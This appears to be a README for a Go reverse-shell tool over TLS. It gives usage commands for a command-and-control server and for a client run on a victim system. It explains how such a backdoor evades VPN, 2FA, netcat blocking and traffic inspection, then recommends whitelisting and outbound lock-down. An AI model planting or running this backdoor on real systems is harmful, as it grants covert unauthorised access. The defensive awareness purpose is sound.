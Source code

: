 # A Simple Reverse Shell Framework over TLS
This is a PoC reverse shell written in Go. 

Purely for educational purposes. Use responsibly.

# Usage
Start command and control server (e.g. replace -linux with -darwin if your server is a macOS one) and select a port of your choosing (port 7788 is used below)
```bash
server-linux 7788
```

Now connect from the target/victim system, specifying the hostname (_command-and-control-server_) of the C&C server, and port that the server is listening on (7788 in our example)
```bash
client-linux command-and-control-server-hostname 7788
```


# Why?
Many network system defenders may not realise the risk associated with arbitrary outbound connection from protected systems. They may still be under the illusion that locking down and blocking inbound connections may be sufficient to protect critical systems.

The purpose is to help point out unsafe assumptions with a simple demo

## You need VPN, 2FA, etc in order to get on my network
This tool completely bypasses your protection, all it needs is an insider willing to plant a tool such as this as a backdoor to give them persistent access which circumvents all your VPN and 2FA technologies.  

Think of that sysadmin that is about to be fired. A disgruntled employee or other malicious insiders could build a similar tool to grant themselves permanent access. 

## I will block netcat/nc installation on my systems
Netcat is a very versatile and useful tool, which has very legitimate applications. However, it is also a traditional tool of choice for obtaining reverse shells. So, it may seem reasonable that blocking/blacklisting it may reduce the risk significantly.

Well, this PoC is not netcat and does not require it. In fact it is a simple plain old Go program. It is so simple as to not require any external library: it is a pure Go implementation, using only built-in primitives. Note that it is not very difficult to evade fingerprint-based scanning technologies

## I will install a network intrusion detection and fingerprint the traffic from this tool
Well, that's a good idea. A network intrusion detection system can do many things and can be used to detect attacks like this, for example, because netcat is done over plain TCP connection, it is possible to inspect packets and fingerprint data exfiltration and similar bad behaviour. 

The problem is that, unlike many similar approaches, this tool works over TLS, so good luck with that.

## I will use threat feeds to fingerprint all your command and control servers as well as certificates that may be used for TLS
Good thinking, but this will not be a reliable or efficient method for detection. This is because the tool can be configured to communicate with any server of the attacker's choosing, so they can spin up a server anywhere in the world and install arbitrary certificates on it, and you are left chasing shadows 

## What then is a reliable way to defend against this threat?
There are two strong controls that you can apply to mitigate this threat:

1. *Application Whitelisting*: allowing *only* the applications that you have explicitly permitted to run, to be run on your server, and only those! This is perhaps, the strongest control, but it is not guaranteed because one of your whitelisted applications may itself be compromised and be used as an attack vector.
   
2. *Network lock-down*: if your system does not need to go out to the Internet, block outbound and inbound connections on the firewalls and also using host-based firewalls. Note that even if you totally blocked outbound Internet access, it is not a guaranteed solution. This is because if the protected server is allowed to make outbound connections directly or indirectly to another internal system that in turn has the capability to make outbound Internet connection, this tool can be chained together starting from your sensitive system, and trampolining via other internal systems to ultimately reach one that could communicate directly outbound to the Internet.

Many of the ideas suggested above, while not foolproof, are part of a reasonable defense-in-depth strategy for mitigating this threat.

The key message is to *understand your network and services*! If you know precisely which remote servers and ports that they are allowed to communicate with, that is a great piece of information that can be used to reduce the threat. For example, you may whitelist precisely those remote servers and ports as the only outbound connections you wish to allow as well as which applications are allowed to connect on which ports and to what destinations. 

Where outbound Internet connection is necessary, *consider network anomaly detection* to help you _possibly_ detect unusual connections that may be an indicator of compromise.


# Warning and Disclaimers
This tool is only provided for educational purposes. Do not use it to attack systems. The author assumes no liability or responsibility for anything you do with it or that it does to any system you use it on. See LICENSE for further detail.

## A demo should still use secure communications
This tool is intended to highlight a threat to protected systems and to demonstrate the difficulty in effectively defending against the threat.

It is a very simple program that could be used to demonstrate the importance of monitoring outbound connections from your protected environment for the existence of maliciously planted backdoors. 

However, it is important to do that over TLS too as you'd not like third parties to sniff or inject themselves into your demo. 

CAUTION: Please note that the TLS to the target mitigates casual sniffing and injection risks, however it does not entirely eliminate man-in-the-middle attacks because the client does not verify end certificates. Consider certificate pinning or similar approaches if you'd like to use this technique on a more permanent basis or for other legitimate/useful remote shell designs!
